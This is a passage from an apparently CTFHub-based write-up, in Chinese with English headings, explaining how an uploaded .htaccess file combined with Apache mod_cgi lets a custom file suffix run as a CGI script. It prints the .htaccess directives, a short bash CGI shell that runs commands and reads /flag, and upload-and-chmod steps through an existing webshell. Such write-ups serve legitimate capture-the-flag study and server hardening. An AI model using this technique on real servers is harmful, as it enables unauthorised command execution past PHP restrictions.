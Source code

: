 *   **概述 (Overview):** 如果 Apache 服务器配置不当，允许在 Web 目录下使用 `.htaccess` 文件覆盖配置，并且开启了 `mod_cgi` 模块，攻击者可以上传一个 `.htaccess` 文件来指示 Apache 将特定后缀（例如 `.wors`）的文件作为 CGI 脚本执行。然后上传一个该后缀的 Shell 脚本，访问它即可执行命令。
*   **工作原理 (Working Principle):**
    1.  **`.htaccess` 配置:** 攻击者在目标目录下创建一个 `.htaccess` 文件，内容类似：
        ```apache
        Options +ExecCGI
        AddHandler cgi-script .wors 
        ```
        *   `Options +ExecCGI`: 允许在该目录下执行 CGI 脚本。
        *   `AddHandler cgi-script .wors`: 告诉 Apache 将所有 `.wors` 后缀的文件交给 CGI 处理器处理。
    2.  **上传 Shell 脚本:** 上传一个具有自定义后缀（如 `shell.wors`）的 Shell 脚本，内容类似：
        ```bash
        #!/bin/bash
        echo "Content-type: text/plain" 
        echo "" 
        /bin/bash -c "id; ls -al; pwd; tac /flag" 
        ```
        **注意:** 脚本需要有可执行权限 (`chmod +x shell.wors`)，并且第一行 `#!/bin/bash` 指定解释器。输出前必须有 `Content-type` 头和空行。
    3.  **触发执行:** 当用户通过 Web 访问 `shell.wors` 时，Apache 会根据 `.htaccess` 的配置，将其作为 CGI 脚本执行，运行其中的 Shell 命令。
*   **利用条件 (Exploitation Conditions):**
    *   目标 Web 服务器是 Apache + PHP。
    *   Apache 加载了 `mod_cgi` 模块。
    *   目标 Web 目录的 Apache 配置中 `AllowOverride` 指令允许 `.htaccess` 文件覆盖 `Options` 和 `AddHandler` (通常需要 `AllowOverride All` 或至少 `AllowOverride Options FileInfo`)。
    *   目标目录可写，允许上传 `.htaccess` 和 Shell 脚本。
    *   能够设置上传的 Shell 脚本具有可执行权限 (通常通过 WebShell)。
*   **利用步骤 / 示例 Payload (Exploitation Steps / Example Payload):**
    1.  通过 WebShell 上传 `.htaccess` 文件 (内容如上)。
    2.  通过 WebShell 上传 `shell.wors` 文件 (内容如上)。
    3.  通过 WebShell 给 `shell.wors` 添加执行权限: `chmod +x shell.wors`。
    4.  在浏览器中访问 `http://target.com/path/to/shell.wors`。
*   **CTFHUB 示例 (CTFHUB Example):**
    ![Apache Mod CGI 1](/ctfhub/images/web7.png)
    (蚁剑连接，可查看 `phpinfo` 确认 Apache、mod_cgi、AllowOverride 等信息)